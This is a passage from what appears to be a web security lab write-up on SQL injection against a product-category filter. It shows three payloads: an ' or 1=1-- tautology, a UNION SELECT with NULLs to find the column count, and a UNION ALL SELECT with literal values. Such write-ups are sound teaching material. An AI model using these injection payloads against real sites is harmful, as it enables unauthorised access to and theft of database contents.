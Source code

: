 The same happens with this payload, to display all values:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We will update the payload to execute a UNION attack and find the query takes 3
parameters and not 2:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+union+select+NULL,NULL,NULL--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/b3345f0a6dafdc76cf65b40489b6d292.png)

We can also add values instead of using NULL:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+union+all+select+'0','1','2'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/0d2c7db7600c04d41fe1d170b5771849.png)
